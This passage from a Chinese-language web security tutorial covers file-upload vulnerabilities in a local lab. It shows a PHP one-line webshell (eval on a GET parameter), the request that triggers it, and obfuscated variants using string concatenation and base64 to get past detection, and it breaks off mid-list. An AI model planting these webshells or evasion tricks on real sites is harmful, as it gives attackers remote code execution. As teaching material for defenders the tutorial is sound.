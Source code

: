 访问地址：<http://127.0.0.1/hackable/uploads/phpinfo.php>，可以看到 phpinfo() 已经被执行成功。


<Image alt="图片3.png" src="https://s0.lgstatic.com/i/image/M00/91/7B/Ciqc1GAOpSaARCD_AALlCWvyDKc931.png"/> 
  
图 3 解析成功的 phpinfo

就如果我们上传的 PHP 是更多恶意功能的脚本，就可以实现更多攻击行为。

### 利用漏洞上传 Webshell

#### 1.一句话木马

提到 Webshell 木马，就不得不提下"一句话木马"。PHP 一句话木马可以通过 GET、POST、COOKIE 这几种方式提交数据，然后将数据传递给代码/命令执行函数，从而实现任意代码/命令执行。

比如以下这个一句话木马：

```php
<?php eval(@$_GET['a']); ?>
```

将上述代码保存为 eval.php 并上传至网站，然后构造请求：

```java
http://127.0.0.1/hackable/uploads/eval.php?a=phpinfo();
```

利用一句话木马成功执行 phpinfo() 函数。


<Image alt="图片4.png" src="https://s0.lgstatic.com/i/image/M00/91/86/CgqCHmAOpTmAfY3IAARME2KRqaY914.png"/> 
  
图 4 利用一句话木马执行代码

有时为了绕过木马检测，攻击者会对一句话进行混淆变形，比如下面几句。

* **利用字符串拼接执行函数名：**

```php
<?php
$a="e"."v";
$b="a"."l";
$c=$a.$b;
$c($_POST['a']);
?>
```

* **通过 base64_decode 编码执行函数名：**

```php
<?php
$a=base64_decode("ZXZhbA==")
$a($_POST['a']);
?>
```

* **由 GET 参数指定函数名和参数：**
